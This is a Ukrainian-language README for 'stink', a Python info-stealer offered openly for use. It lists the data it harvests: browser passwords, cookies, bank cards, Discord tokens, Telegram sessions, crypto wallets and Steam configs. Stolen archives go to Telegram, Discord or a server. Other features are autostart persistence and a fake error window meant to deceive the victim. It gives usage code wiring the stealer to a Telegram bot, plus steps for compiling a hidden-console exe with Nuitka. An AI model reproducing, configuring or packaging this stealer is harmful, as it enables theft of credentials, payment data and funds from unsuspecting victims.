 # stink

Стилер всього лише в декілька рядків з відправкою до Telegram / Server / Discord. Без залежностей, тільки вбудовані бібліотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Опис
`stink` вже має значний функціонал, який тільки розширюватиметься.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Певні модулі](#Певні-модулі)
  * [Додаткові параметри](#Додаткові-параметри)
* [Створення exe](#Створення-exe)
  * [Створення виконуваного файла](#Створення-виконуваного-файла)
  * [За допомогою BAT](#За-допомогою-BAT)
  * [За допомогою CMD](#За-допомогою-CMD)

### Поточні можливості
1. Підтримка наступних браузерів:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Збір наступних даних:
   - Скріншот
   - Кукі
   - Паролі
   - Банківські карти
   - Історія
   - Закладки
   - IP-адреса
   - Конфігурація системи
   - Активні процеси
   - Токени Discord
   - Сесії Telegram
   - Хости FileZilla
   - Крипто гаманці:
       - Metamask
       - Phantom
   - Конфіги Steam
3. Підтримка мультипрофілів браузера.
4. Відправка зібраних даних архівом в Telegram / Server / Discord.
5. Виконання в окремому потоці.
6. Виконання з використанням багатопроцесорності.
7. Можливість додання в автозапуск.
8. Вивід вікна з фейковою помилкою.

## Приклад використання
### Стандартний
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Певні модулі

Приклад зі збором тільки системних даних і скріншота.
```python
from stink import Stealer
from stink.enums import Features, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Додаткові параметри

- `features` - вмикає модулі зі списку. Модулі можна імпортувати з `stink.enums.Features`. Доступні модулі:

  - `passwords` - збір паролів.

  - `cookies` - збір кукі.

  - `cards` - збір банківських карт.

  - `history` - збір історії пошуку.

  - `bookmarks` - збір закладок.

  - `extensions` - збір розширень браузера.

  - `processes` - збір активних процесів.

  - `system` - збір конфігурації системи.

  - `screen` - скріншот.

  - `discord` - збір токенів Discord.

  - `telegram` - збір сесій Telegram.

  - `filezilla` - збір хостів FileZilla.

  - `wallets` – збір крипто гаманців.

  - `steam` - збір конфігів Steam.


- `utils` - вмикає утиліти зі списку. Утиліти можна імпортувати з `stink.enums.Utils`. Доступні утиліти:

  - `autostart` - додання в автозапуск.

  - `message` - вивід фейкового вікна помилки.
  

- `senders` - запускає способи надсилання зі списку. Способи надсилання можна імпортувати з `stink.enums.Senders`. Доступні способи надсилання:

  - `server` - відправлення на сервер.

  - `telegram` - відправка в Telegram.

  - `discord` - надсилання в Discord.
## Створення exe
Python являється інтерпретованою мовою програмування, тому ми спочатку транслюємо його в C, а потім скомпілюємо в .exe файл.
Для цього нам знадобиться Nuitka.

### Створення виконуваного файла

1. [Завантажуємо](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архів.
2. Розпаковуємо архів і переходимо в директорію stink-master.
3. Створюємо test.py (або будь-яку іншу назву) файл в цій же директорії з наступним кодом:
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### За допомогою BAT
1. Запускаємо compiler.bat.

### За допомогою CMD
1. Відкриваємо `cmd`.
2. Прописуємо команду:
```
pip install virtualenv
```
3. Переходимо в папку з файлом `test.py`:
```
cd path\to\file
```
4. Створюємо віртуальне оточення і активуємо його:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Встановлюємо Nuitka:
````
pip install Nuitka==0.6.16.4
````
6. Для зменшення розміру файла додатково встановлюємо Zstandard (опціонально):
```
pip install zstandard==0.17.0
```
7. Прописуємо команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

Після виконання команди отримуємо test.exe файл із прихованою консоллю.
